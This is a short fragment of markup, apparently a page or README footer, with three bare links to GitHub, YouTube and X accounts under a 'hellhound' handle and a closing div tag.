[](https://github.com/xhellhoundx/)
[](https://www.youtube.com/@H3llH0undDSO)
[](https://x.com/hellhoundso)

</div>